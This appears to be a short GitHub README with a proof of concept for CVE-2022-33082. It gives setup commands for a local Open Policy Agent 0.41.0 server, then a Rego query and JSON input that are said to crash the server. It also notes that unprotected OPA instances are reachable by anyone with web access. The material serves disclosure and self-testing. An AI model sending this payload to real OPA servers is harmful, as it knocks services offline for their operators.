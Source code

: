 # CVE 2022-33082 Exploit

## DISCLAMER
### This code is provided for **ETHICAL** purposes - understanding the vulnerability and testing one's own systems or AUTHORIZED systems. By using this, you agree to act ethically and I hold no liability if you do not act ethically.

### This exploit works on Open Policy Agent (OPA) versions 0.41.0 and lower. Install an OPA instance on Linux to test with this command:
`
curl -L -o opa https://openpolicyagent.org/downloads/v0.41.0/opa_linux_amd64_static
`

`
chmod +x opa
`

`
./opa run --server
`

### Then, navigate to localhost:8181 on your web browser. Input the below into the respective fields

query field (go code):
`
p := [input() | input := 1]
`

`
{ "input":"put this in the input (json) field!" }
`
### The website will then crash and the terminal runing the server will report a kernel panic

## Implications
### Anyone with web access to an OPA server version 0.41.0 or lower can completely crash the server. This server is not password protected by default.
